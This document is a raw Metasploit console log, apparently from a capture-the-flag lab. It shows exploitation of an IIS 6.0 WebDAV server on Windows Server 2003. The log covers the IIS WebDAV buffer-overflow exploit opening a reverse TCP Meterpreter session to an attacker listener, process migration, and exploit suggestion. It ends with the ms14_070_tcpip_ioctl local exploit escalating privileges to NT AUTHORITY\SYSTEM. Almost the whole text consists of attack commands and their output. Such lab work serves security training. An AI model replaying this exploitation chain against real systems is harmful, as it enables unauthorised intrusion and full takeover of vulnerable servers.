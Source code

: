 msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.12:6969 
[*] Trying path length 3 to 60 ...
[*] Sending stage (176195 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.12:6969 -> 10.10.10.15:1034) at 2020-09-23 14:46:56 -0400


meterpreter > 
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2992 created.
Channel 2 created.
wMicrosoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrvwhoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>^Z
Background channel 2? [y/N]  y
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > sessions 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 272   4     smss.exe                                                        
 324   272   csrss.exe                                                       
 348   272   winlogon.exe                                                    
 396   348   services.exe                                                    
 408   348   lsass.exe                                                       
 616   396   svchost.exe                                                     
 684   396   svchost.exe                                                     
 740   396   svchost.exe                                                     
 768   396   svchost.exe                                                     
 804   396   svchost.exe                                                     
 916   1088  cidaemon.exe                                                    
 940   396   spoolsv.exe                                                     
 968   396   msdtc.exe                                                       
 1088  396   cisvc.exe                                                       
 1136  396   svchost.exe                                                     
 1152  1088  cidaemon.exe                                                    
 1184  396   inetinfo.exe                                                    
 1220  396   svchost.exe                                                     
 1308  1088  cidaemon.exe                                                    
 1332  396   VGAuthService.exe                                               
 1412  396   vmtoolsd.exe                                                    
 1464  396   svchost.exe                                                     
 1608  396   svchost.exe                                                     
 1704  396   alg.exe                                                         
 1856  616   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1932  396   dllhost.exe                                                     
 2080  3264  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2324  616   wmiprvse.exe                                                    
 2624  348   logon.scr                                                       
 2992  2080  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 3264  1464  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3336  616   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3384  1464  w3wp.exe                                                        
 4012  616   davcdata.exe                                                    

meterpreter > migrate 1856
[*] Migrating from 2080 to 1856...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > check
[-] Check failed: Post modules do not support check.
msf5 post(multi/recon/local_exploit_suggester) > show options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > show options 

Module options (exploit/windows/local/ms14_070_tcpip_ioctl):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.210    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2


msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set lport 9696
lport => 9696
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

*] Started reverse TCP handler on 10.10.14.12:9696 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (176195 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.12:9696 -> 10.10.10.15:1037) at 2020-09-23 14:52:27 -0400


meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
